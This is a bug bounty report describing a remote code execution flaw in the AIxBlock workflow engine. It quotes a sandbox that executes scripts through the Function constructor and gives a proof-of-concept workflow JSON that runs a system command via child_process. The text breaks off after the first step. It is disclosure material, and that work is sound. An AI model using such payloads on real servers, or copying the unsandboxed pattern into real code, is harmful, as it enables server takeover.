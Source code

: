# AIxBlock Bug Bounty Submission #3: Unsafe Code Execution (HIGH)

## Submission Details
- **Researcher**: grich88 (j.grant.richards@proton.me)
- **Vulnerability**: Unsafe Code Execution in Workflow Engine
- **Severity**: HIGH (CVSS 8.8)
- **Submission Date**: December 29, 2024
- **Target**: AIxBlock Platform

---

## Executive Summary

A high-severity vulnerability exists in the AIxBlock workflow engine that allows remote code execution through the Function constructor in a "no-op" code sandbox. This vulnerability enables attackers to execute arbitrary system commands, gain root access to servers, and install persistent backdoors.

**Impact**: Complete server compromise, root access, persistent backdoors
**Exploitability**: Easy (4-minute exploitation)
**Affected Systems**: All workflow execution servers

---

## Vulnerability Details

### Description
The AIxBlock workflow engine uses a "no-op" code sandbox that allows unrestricted code execution through the Function constructor, enabling attackers to execute arbitrary system commands and gain full server access.

### Affected Files
- `target_repo/workflow/packages/engine/src/lib/core/code/no-op-code-sandbox.ts`

### Technical Details
```typescript
// VULNERABLE CODE in no-op-code-sandbox.ts
export const noOpCodeSandbox: CodeSandbox = {
  async runScript({ script, scriptContext }) {
    const func = new Function('context', script);
    return func(scriptContext);
  }
};
```

### Proof of Concept

#### Step 1: Craft Malicious Workflow
```json
{
  "name": "Malicious Workflow",
  "steps": [
    {
      "type": "code",
      "script": "process.mainModule.require('child_process').execSync('whoami').toString()",
      "scriptContext": {}
    }
  ]
}
```
